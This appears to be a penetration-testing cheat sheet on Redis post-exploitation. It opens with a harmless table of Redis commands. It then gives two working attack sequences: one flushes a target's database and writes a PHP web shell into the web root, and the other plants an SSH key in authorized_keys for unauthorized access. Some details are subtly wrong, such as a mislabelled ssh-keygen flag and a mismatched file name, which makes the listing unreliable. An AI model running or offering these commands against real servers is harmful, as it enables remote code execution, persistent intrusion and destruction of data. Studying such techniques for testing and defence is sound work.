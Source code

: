 ```
```
# Post-Exploitation
## Common Redis Commands
This table provides a clear overview of each command's function within Redis and how they are used, covering a broad spectrum of database management tasks.
Command	Description	Usage
SET	Sets the value of a key	SET key value
GET	Gets the value of a key	GET key
DEL	Deletes one or more keys	DEL key1 [key2 ...]
KEYS	Lists all keys matching a pattern	KEYS pattern
EXPIRE	Sets an expiration time on a key	EXPIRE key seconds
TTL	Gets the remaining time to live of a key	TTL key
INCR	Increments the value of a key	INCR key
DECR	Decrements the value of a key	DECR key
LPUSH	Prepends one or multiple values to a list	LPUSH key value [value ...]
RPUSH	Appends one or multiple values to a list	RPUSH key value [value ...]
LPOP	Removes and gets the first element in a list	LPOP key
RPOP	Removes and gets the last element in a list	RPOP key
SADD	Adds one or more members to a set	SADD key member [member ...]
SMEMBERS	Gets all members in a set	SMEMBERS key
ZADD	Adds one or more members to a sorted set	ZADD key score member [score member ...]
ZRANGE	Returns a range of members in a sorted set	ZRANGE key start stop [WITHSCORES]
HSET	Sets field in the hash stored at key	HSET key field value [field value ...]
HGET	Gets the value of a field in a hash stored at key	HGET key field
HDEL	Deletes one or more fields from a hash stored at key	HDEL key field [field ...]
HMSET	Sets multiple fields in a hash stored at key (Use HSET for Redis 4.0.0 and above)	HMSET key field1 value1 [field2 value2 ...]

## Exploiting Redis for Remote Code Execution
The sequence of commands provided demonstrates a method to exploit Redis instances for uploading and executing a PHP web shell on a target server. This technique leverages the flexibility of Redis to modify its configuration and misuse its data persistence capabilities to inject malicious code into a web-accessible directory.
```
$ redis-cli -h X.X.X.X flushall
$ redis-cli -h X.X.X.X set pwn '<?php system($_REQUEST['cmd']); ?>'
$ redis-cli -h X.X.X.X config set dbfilename shell.php
$ redis-cli -h X.X.X.X config set dir /var/www/html
$ redis-cli -h X.X.X.X save
```
## Unauthorized SSH Access via Redis Exploitation
This set of commands demonstrates an exploitation method that uses Redis to insert an SSH public key into the authorized_keys file of a Redis server, effectively allowing unauthorized SSH access to the server.
```
$ ssh-keygen -t ecdsa -s 521 -f key
$ (echo -e "\n\n"; cat key.pub; echo -e "\n\n") > key.txt
$ redis-cli -h X.X.X.X flushall
$ cat foo.txt | redis-cli -h X.X.X.X -x set pwn
$ redis-cli -h X.X.X.X config set dbfilename authorized_keys
$ redis-cli -h X.X.X.X config set dir /var/lib/redis/.ssh
$ redis-cli -h X.X.X.X save
```
